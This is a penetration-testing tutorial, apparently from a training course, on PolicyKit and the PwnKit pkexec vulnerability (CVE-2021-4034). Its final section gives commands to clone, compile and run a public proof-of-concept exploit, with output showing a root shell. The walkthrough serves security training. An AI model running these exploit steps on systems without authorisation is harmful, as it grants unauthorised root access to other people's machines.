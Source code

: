 # _OVERVIEW

In the `pkexec` tool, A memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) was found, also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) and also leads to privilege escalation. This vulnerability was also hidden for more than ten years, and no one can precisely say when it was discovered and exploited. Finally, in November 2021, this vulnerability was published and fixed two months later.
# Introduction to PolicyKit

PolicyKit (`polkit`) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so.
To check whether the user software is authorized for this instruction, `polkit` is asked. It is possible to set how permissions are granted by default for each user and application. For example, for each user, it can be set whether the operation should be generally allowed or forbidden, or authorization as an administrator or as a separate user with a one-time, process-limited, session-limited, or unlimited validity should be required. For individual users and groups, the authorizations can be assigned individually.

# Defining polkit policies

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

## Programs
PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action
The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.

```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```
## PwnKit exploit

To exploit this vulnerability, we need to download a [PoC](https://github.com/arthepsy/CVE-2021-4034) and compile it on the target system itself or a copy we have made.

```shell-session
$ git clone https://github.com/arthepsy/CVE-2021-4034.git
$ cd CVE-2021-4034
$ gcc cve-2021-4034-poc.c -o poc
```
 After the execution, we change from the standard shell (`sh`) to Bash (`bash`) and check the user's IDs.
```shell-session
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```
